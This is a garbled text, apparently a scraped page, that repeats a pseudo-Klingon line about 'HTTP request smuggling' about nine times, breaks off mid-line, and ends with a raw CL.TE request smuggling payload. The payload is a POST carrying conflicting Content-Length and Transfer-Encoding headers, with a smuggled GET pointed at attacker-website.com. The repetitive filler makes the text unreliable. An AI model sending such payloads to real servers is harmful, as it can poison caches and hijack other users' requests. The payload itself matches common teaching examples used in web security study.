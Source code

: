 **QawHaq HTTP request smuggling**:
Qapla'! QawHaq HTTP request smuggling vItlhutlh! 

**QawHaq HTTP request smuggling**:
Qapla'! QawHaq HTTP request smuggling vItlhutlh! 

**QawHaq HTTP request smuggling**:
Qapla'! QawHaq HTTP request smuggling vItlhutlh! 

**QawHaq HTTP request smuggling**:
Qapla'! QawHaq HTTP request smuggling vItlhutlh! 

**QawHaq HTTP request smuggling**:
Qapla'! QawHaq HTTP request smuggling vItlhutlh! 

**QawHaq HTTP request smuggling**:
Qapla'! QawHaq HTTP request smuggling vItlhutlh! 

**QawHaq HTTP request smuggling**:
Qapla'! QawHaq HTTP request smuggling vItlhutlh! 

**QawHaq HTTP request smuggling**:
Qapla'! QawHaq HTTP request smuggling vItlhutlh! 

**QawHaq HTTP request smuggling**:
Qapla'! QawHaq HTTP
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```